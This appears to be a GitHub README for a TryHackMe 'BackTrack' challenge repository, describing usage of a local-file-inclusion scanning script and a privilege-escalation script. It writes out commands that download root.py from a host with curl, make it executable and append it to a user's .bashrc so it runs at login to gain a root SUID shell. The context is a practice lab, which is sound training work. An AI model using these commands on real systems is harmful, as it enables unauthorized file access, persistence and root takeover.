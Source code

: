 # BackTrack--THM
LFI automation script - TryHackMe challenge BackTrack

# Usage LFI - scanner >>

```
git clone https://github.com/TheSysRat/BackTrack--THM

cd BackTrack--THM

python LFI.py -l <IP_ADDRESS> -p <PORT> -w <DICTIONARY_FILE> -o <OUTPUT_LOG_FILE>

```
# root.py script for get SUID bash using SIGSTOP root process >>

```
Download file:

curl http://<IP>:<Port>/root.py -o /home/orville/root.py

Update permisions:

chmod +x /home/orville/root.py

Add file to config file /home/orville/.bashrc  :

echo "python3 /home/orville/root.py" >>  /home/orville/.bashrc

```


